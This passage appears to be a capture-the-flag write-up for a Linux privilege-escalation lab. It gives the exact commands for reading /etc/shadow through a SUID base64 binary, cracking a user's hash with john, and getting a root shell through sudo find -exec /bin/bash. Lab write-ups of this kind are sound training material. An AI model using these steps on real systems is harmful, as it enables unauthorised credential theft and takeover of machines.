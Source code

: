 We will have our root shell.

## Capstone Project

Task 1: What is the content of flag1.txt

Task 2: What is the content of flag2.txt

First we need to enumerate the system.

We find that this is a CentOS 7 server with 3.10.0 linux kernel and we couldn't find any easy to exploit kernel vulnerability. Let's read /etc/passwd file.

```bash
$cat /etc/passwd | grep home
```

We found 1 other user. So try to read the shadow file with ```$sudo cat /etc/shadow``` This user can't run sudo command, so we can't see the shadow file. So, let's try to find any luck with SGID or SUID.

```bash
$find / -type f -perm -04000 -ls 2>/dev/null
```

We have base64 with suid bit set to it so let's read the shadow file using base64

```bash
$base64 /etc/shadow | base64 -d | grep missy | cut -d ":" -f 2,3 > missy.hash
```

Now break the hash using john. with ```$john missy.hash --wordlist=/usr/share/wordlists/rockyou.txt``` and voila we got the password

Login as missy ```su - missy```

Try to find any flag that is present in under missy's access level

```bash
$find / -name flag*.txt 2>/dev/null
```

We got a hit. Now we can read flag1.txt. Now list sudo permission for missy. ```$sudo -l``` we have got that missy can run find with sudo and doesn't require any password. So, let's break into root using find as we have got earlier

```bash
$sudo find . -exec /bin/bash \; -quit
```
